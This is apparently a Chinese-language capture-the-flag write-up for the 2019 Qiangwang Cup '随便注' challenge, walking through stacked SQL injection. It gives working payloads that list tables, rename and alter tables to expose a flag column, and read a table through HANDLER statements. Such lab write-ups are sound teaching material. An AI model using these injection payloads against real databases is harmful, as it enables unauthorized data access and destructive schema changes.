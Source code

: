 ### [强网杯 2019]随便注

---

观察一下：

![image-20241020140634113](https://gitee.com/bx33661/image/raw/master/path/image-20241020140634113.png)

![image-20241020140704891](https://gitee.com/bx33661/image/raw/master/path/image-20241020140704891.png)

```
1';show tables;#
```

![image-20241020135240141](https://gitee.com/bx33661/image/raw/master/path/image-20241020135240141.png)



我们看到有两个表，我们这时候猜测内部sql语句大概应该是：

```
SELECT id,data FROM words WHERE id='$id'
```

**show**

在过滤了 select 和 where 的情况下，还可以使用 show 来爆出数据库名，表名，和列名。

```sql
show datebases; //数据库。
show tables; //表名。
show columns from table; //字段。
```



#### 方法一：

1，rename 先把 words 表改名为其他的表名。

2，把 1919810931114514 表的名字改为 words 。

3 ，给新 words 表添加新的列名 id 。

4，将 flag 改名为 data 。

```
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#
```

![image-20241020141705138](https://gitee.com/bx33661/image/raw/master/path/image-20241020141705138.png)



#### 方法二：

采用`handler`,这里特别需要注意的是

> 当表名是数字的话，需要反引号包括，才能查询

```
1';HANDLER `1919810931114514` OPEN;HANDLER `1919810931114514` READ FIRST;HANDLER `1919810931114514` CLOSE;#
```





https://blog.csdn.net/qq_43619533/article/details/103433643

https://blog.csdn.net/qq_44657899/article/details/103239145